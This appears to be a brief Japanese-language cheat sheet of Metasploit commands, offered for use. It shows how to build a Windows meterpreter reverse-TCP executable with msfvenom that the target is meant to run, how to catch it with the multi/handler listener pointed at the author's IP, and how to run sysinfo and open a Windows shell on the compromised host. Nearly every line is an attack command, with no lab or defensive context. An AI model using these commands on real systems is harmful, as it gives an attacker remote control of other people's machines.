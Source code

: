 ###  msfvenomで相手側で実行する用のリバースシェルを生成する  
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=<自分のIP> LPORT=1111 -f exe -o sheshe.exe ```  

### msfvenomでリバースシェルの待ち構え  
```
msf > use exploit/multi/handler  
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > set LHOST <自分のIP>  
msf > set LPORT ポート番号
msf > run
```

### システムの情報を表示する  
``` meterpreter> sysinfo ```

### windowsシェルの起動
``` meterpreter> shell ```
